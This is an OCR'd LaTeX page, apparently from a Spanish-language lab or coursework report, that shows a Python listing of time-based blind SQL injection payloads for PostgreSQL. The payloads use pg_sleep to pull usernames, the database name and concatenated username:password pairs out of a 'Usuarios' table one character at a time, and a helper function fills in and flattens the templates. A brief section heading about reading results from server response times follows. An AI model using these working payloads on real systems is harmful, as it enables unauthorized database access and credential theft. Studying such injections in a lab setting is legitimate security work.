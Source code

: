 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{figure}[H]
    \begin{lstlisting}[language=Python]
        import textwrap

# {i} es la longitud de la palabra
# {p} es la palabra a comprobar
diccionario_inyecciones = {
    "nombres de usuario": "' AND ( LEFT((SELECT string_agg(username, ',') FROM Usuarios), {i}) <> '{p}' OR ( LEFT((SELECT string_agg(username, ',') FROM Usuarios), {i}) = '{p}' AND ( SELECT NULL FROM pg_sleep(2) ) IS NULL ) ) --",
    "nombres de la base de datos": """  '
  AND (
    left(current_database(), {i}) <> '{p}' 
    OR (
      left(current_database(), {i}) = '{p}' 
      AND EXISTS (SELECT 1 FROM pg_sleep(1))
    )
  )
--
""",
    "Usarios y Contraseñas concatenados": """ ' AND (
    LEFT((SELECT string_agg(username || ':' || password, ',') FROM Usuarios), {i}) <> '{p}'
    OR (
      LEFT((SELECT string_agg(username || ':' || password, ',') FROM Usuarios), {i}) = '{p}'
      AND EXISTS (SELECT 1 FROM pg_sleep(1))
    )
    )
    --""",
}


def transformar_inyeccion(inyeccion: str, palabra: str, longitud: int):
    inyeccion = inyeccion.replace("{i}", str(longitud))
    inyeccion = inyeccion.replace("{p}", palabra)
    # Eliminar la indentación
    inyeccion = textwrap.dedent(inyeccion)
    # Reemplazar saltos de línea y tabulaciones por espacios
    inyeccion = ' '.join(line.strip() for line in inyeccion.splitlines())

    return inyeccion


if __name__ == "__main__":
    print(transformar_inyeccion("nombres de usuario {i} {p}", "admin", 5))
    \end{lstlisting}
    \caption{Código del diccionario de inyecciones}
\end{figure}


\subsubsection{Resultados de los Ataques}
\label{subsec:resultados_ataques}

En esta subsección, se presentan los resultados obtenidos al ejecutar cada inyección implementada. Los resultados se interpretan basándose en el tiempo de respuesta observado en el servidor.
\end{document}
